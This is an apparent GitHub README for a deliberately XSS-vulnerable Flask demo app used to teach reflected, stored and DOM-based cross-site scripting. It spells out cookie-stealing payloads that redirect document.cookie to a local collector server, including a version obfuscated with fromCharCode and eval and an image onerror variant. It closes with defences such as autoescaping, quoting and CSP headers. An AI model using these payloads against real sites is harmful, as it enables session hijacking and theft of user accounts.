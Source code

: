 # XSS-Demo (Extended)
Minimal, flask-powered python web app to demonstrate reflected and stored XSS attacks.
Less than 30 lines of Python + 40 lines HTML template.

![XSS Demo Screenshot](xss-demo-screenshot.png "XSS Demo Screenshot")

# Disclaimer

The current version is vulnerable to XSS.
This is meant for educational purposed only, please do not use it to attack websites.

# Quickstart

* Clone this repository.
* Create a [virtual environment](https://virtualenvwrapper.readthedocs.io/) (if you don't want to install `flask` in your global python environment) and 
  activate it.
* `pip install flask` to install flask in the virtual environment
* Run `flask run` in the vulnerable website folder
* Open [127.0.0.1:5000](http://127.0.0.1:5000/) in your webbrowser and have fun with XSS

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.


# How it works
## Conditions for this XSS payload to steal cookies from the user
* The Content Security policy of the webpage must be misconfigured
  * `httponly` ensures that the cookies are not know by the javascript engine
  * `script-src` must be incorrectly set
* Autoescape must be off
  * There must be no autoescape at the side of the server.


# Demostrations of XSS
## Things to note BEFORE trying the demostration
* Go to [127.0.0.1:5000/cookie](http://127.0.0.1:5000/cookie) to create set a cookie for the main website
* Run `python app.py` in the malicious website folder to run the malicious server to collect the cookies

To delete the cookie:
* Go to inspect element
* Go to Application Tab
* Click on cookies
* Right click on the entry that you want to delete

## Demostration for reflected XSS
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the query blank
* Notice that the code is reflected inside the addressbar as a query.
* When the user clicks on the link containing the address, their cookies from the vulnerable website can be stolen

## Demostration for Stored XSS
### WARNING, this will spam ping the server as the page is loading
* Key in `<script type='text/javascript'>document.location='http://127.0.0.1:1000/?c='+document.cookie;</script>` into the comment blank
* Notice that the code is stored within the website
* When the user access the website, their cookies will automatically stolen until the comment is removed

As you started the flask app in development mode, any source changes should apply immediately so you can just refresh
the page. If you want to clear the database, just delete the `database.db` file that is (re-)created on first use.

## Demostration for DOM-Based XSS
* Key in `http://localhost:5000/?num=alert(123)` into the address bar
* An alert for 123 will appear as an alert

In order to do something similar to the above, we cannot directly, insert `window.location=document.location='http://127.0.0.1:1000/?c='+document.cookie;` into the address bar after the query as some characters might be escaped. The javascript in the DOM only has access to the raw escaped query string and not the unescaped string. Thus, another method is required.

In this case the `toString().constructor.fromCharCode` will be our best friend
* Make sure both servers are up
* Key in `eval(toString().constructor.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,39,104,116,116,112,58,47,47,49,50,55,46,48,46,48,46,49,58,49,48,48,48,47,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,59))` after the `num?` query.

What does it do?
* `toString().constructor.fromCharCode(...)` converts the character code for the javascript into a javascript string
* `eval` will evalucate the string. The string above corresponds to `document.location='http://127.0.0.1:1000/?c='+document.cookie;`
* The evaluator inside the DOM will evaluate the code as `document.location='http://127.0.0.1:1000/?c='+document.cookie;` and execute the reflected attack

You can make use of the XSSQueryFormer inside the folder to experiment around with the different javascript codes to be inserted as the payload

Usage:
* `python XSSQueryFormer.py "{Javascript Code here}"` to convert your code to javascript
* `python XSSQueryFormer.py -h` to show help message


# Different ways of executing XSS

## Execution of XSS through image loading
* Go to the images tab of the website
* Add ```' onerror=document.location='http://127.0.0.1:1000/?c='+document.cookie;class=``` after the `#` symbol
* It will cause the xss script to execute and the cookie will be obtained by the malicious server

# Protection mechanisms

Of course you should never deactivate autoescaping in jinja/flask, so you should never have 
`{% autoescape false %}` in your production templates. 
<br>
This way you will always get the 
[standard HTML context filtering](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)
for variables in your templates.

The tooltip attack mentioned above can of course be avoided by using quotes correctly on 
[line 33 ](https://github.com/jh123x/xss-demo/blob/master/templates/index.html#L33):
```html
      <div title="{{ comment }}">
```

You can also test using 
[Content Security Policy headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) to 
disallow unsafe inline javascript by replacing 
[`app.py` line 16-18](https://github.com/jh123x/xss-demo/blob/master/app.py#L16-L18) with:

```python
    from flask import make_response
    r = make_response(render_template('index.html',
                      comments=comments,
                      search_query=search_query))
    r.headers.set('Content-Security-Policy', "script-src 'none'")
    return r
```


# Acknowledgements
This was forked from [bgres/xss-demo](https://github.com/bgres/xss-demo) 